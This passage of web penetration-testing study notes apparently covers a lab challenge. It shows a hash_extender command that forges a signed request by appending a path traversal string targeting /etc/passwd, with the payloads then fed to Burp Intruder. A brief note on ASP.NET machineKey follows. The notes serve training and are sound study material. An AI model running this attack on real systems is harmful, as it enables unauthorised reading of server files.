 Challenge 5 is what we need to witness how a hash length extension can be performed

Lets try reading the contents of /etc/passwd by executing the attack

We dont need to know the secret value being used. We only need to successfully guess the length of the secret.

For this task we can use **hash_extender**:
```bash
#  https://github.com/iagox86/hash_extender
# The specify a known hash value
# The specify an estimation regarding the secrets length (between 10 and 40 bytes)
# We will have to experiment with the amount of ../../ to be used

./hash_extender -f sha1 --data 'test' -s <hash> --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > payloads.out
```

- Now use the payloads.out inside the BURP Intruder
- we will follow a Sniper approach

> Eventually, we are able to see the content of /etc/passwd by means of a Hash Length Extension Attack.

![Alt text](/assets/images/posts/ewptx/67.png){: .align-center}


## The importance of machineKey
- https://msdn.microsoft.com/en-us/data/w8h3skw9(v=vs.110)

Its a feature used to specify encryption settings For application services, such as view state, forms authentication and roles in a system.

- Machine Key contains a set of fields like validation key, decryption key and so on where unique keys are to be entered.

![Alt text](/assets/images/posts/ewptx/68.png){: .align-center}
